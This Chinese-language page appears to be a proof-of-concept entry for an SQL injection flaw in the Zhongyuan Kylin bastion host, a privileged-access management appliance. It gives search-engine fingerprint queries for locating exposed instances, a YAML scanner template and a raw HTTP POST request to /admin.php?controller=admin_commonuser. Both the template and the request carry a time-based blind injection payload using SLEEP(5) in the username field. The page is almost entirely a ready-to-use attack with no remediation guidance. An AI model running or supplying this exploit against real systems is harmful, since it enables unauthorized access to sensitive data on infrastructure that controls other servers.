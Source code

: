 # 中远麒麟堡垒机SQL注入

## 中远麒麟堡垒机SQL注入
麒麟堡垒机用于运维管理的认证、授权、审计等监控管理。中远麒麟堡垒机存在SQL注入，可利用该漏洞获取系统敏感信息。


## 检索条件：

cert="Baolei" 或 title="麒麟堡垒机" 或 body="admin.php?controller=admin_index&action=get_user_login_fristauth" 

或 body="admin.php?controller=admin_index&action=login"
```
poc:
  relative: req0 && req1
  session: false
  requests:
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      Content-Type: application/x-www-form-urlencoded
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
    data: username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
    follow_redirects: true
    matches: (code.eq("200") && time.gt("5") && time.lt("10"))
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
    data: username=admin
    follow_redirects: true
    matches: time.lt("5")

```


## 请求包
```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```

